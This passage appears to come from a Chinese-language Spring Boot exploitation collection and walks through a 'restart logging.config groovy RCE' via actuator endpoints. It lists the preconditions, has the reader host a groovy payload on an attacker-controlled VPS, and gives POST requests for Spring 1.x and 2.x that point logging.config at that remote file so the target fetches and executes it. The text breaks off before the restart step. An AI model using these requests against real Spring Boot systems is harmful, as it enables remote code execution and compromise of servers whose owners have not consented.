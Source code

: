 **漏洞分析：**

​ [spring boot actuator rce via jolokia](https://xz.aliyun.com/t/4258)

​ https://landgrey.me/blog/21/

**漏洞环境：**

[repository/springboot-restart-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-restart-rce)

正常访问：

```
http://127.0.0.1:9098/actuator/env
```

#### 0x0A：restart logging.config groovy RCE

**利用条件：**

* 可以 POST 请求目标网站的 `/env` 接口设置属性
* 可以 POST 请求目标网站的 `/restart` 接口重启应用
* ⚠️ 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
* ⚠️ HTTP 服务器如果返回含有畸形 groovy 语法内容的文件，会导致程序异常退出
* ⚠️ 环境中需要存在 groovy 依赖，否则会导致程序异常退出

**利用方法：**

**步骤一：托管 groovy 文件**

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以 `groovy` 结尾的 `example.groovy` 文件，内容为需要执行的 groovy 代码，比如：

```xml
Runtime.getRuntime().exec("open -a Calculator")
```

**步骤二：设置 logging.config 属性**

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

logging.config=http://your-vps-ip/example.groovy
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"logging.config","value":"http://your-vps-ip/example.groovy"}
```
